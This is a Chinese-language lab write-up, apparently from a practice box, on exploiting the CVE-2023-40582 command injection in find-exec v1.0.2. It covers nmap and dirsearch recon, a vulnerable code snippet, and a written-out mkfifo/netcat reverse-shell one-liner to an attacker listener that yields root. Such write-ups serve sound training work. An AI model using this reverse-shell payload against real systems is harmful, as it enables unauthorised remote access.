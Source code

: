 ```yaml
---
description: Easy -Linux / find-exec v1.0.2 / 命令注入漏洞
---
```


# ✔️ CVE-2023-40582

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描，获取到2个开放端口：22和3000

```bash
nmap -sC -sV -p- -oA cve40582 192.168.183.36 --open
```

<figure><img src="../../.gitbook/assets/1.png" alt=""><figcaption></figcaption></figure>

* 检查3000端口上的内容，发现是一个命令猜测游戏的网页，这意味着可以输入命令行：

<figure><img src="../../.gitbook/assets/2.png" alt=""><figcaption></figcaption></figure>

* 枚举3000端口上的隐藏文件/目录，找到3个隐藏文件依次查看：

```bash
dirsearch -u http://192.168.149.36:3000 -x 404,403,401,302,301
```

<figure><img src="../../.gitbook/assets/3.png" alt=""><figcaption></figcaption></figure>

* 其中/server.js文件中，有问题的地方是调用了`find-exec`，它会尝试在系统$PATH变量中查找可执行的命令，这意味着可能可以执行一些不安全的命令，如：`rm` / `curl` / ...从而引发**命令注入漏洞**：

<figure><img src="../../.gitbook/assets/4.png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 从首页提供的信息中得知，当前目标系统中使用的`find-exec`是v1.0.2版本，因此适用于该漏洞
* CVE-2023-40582 Find-Exec 中的命令注入漏洞PoC：

```javascript
const findExec = require('find-exec');
const command = findExec([req.query.command]);
```

### 漏洞利用

* 因此此处可以拼接命令，所以构造反弹shell命令如下：

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.244 4444 >/tmp/f
# 监听：
nc -lvnp 4444
```

### ROOT

* 直接获取到拥有root权限的shell：

<figure><img src="../../.gitbook/assets/5.png" alt=""><figcaption></figcaption></figure>

* 获取到proof.txt文件中的内容：

<figure><img src="../../.gitbook/assets/6 (36).png" alt=""><figcaption></figcaption></figure>
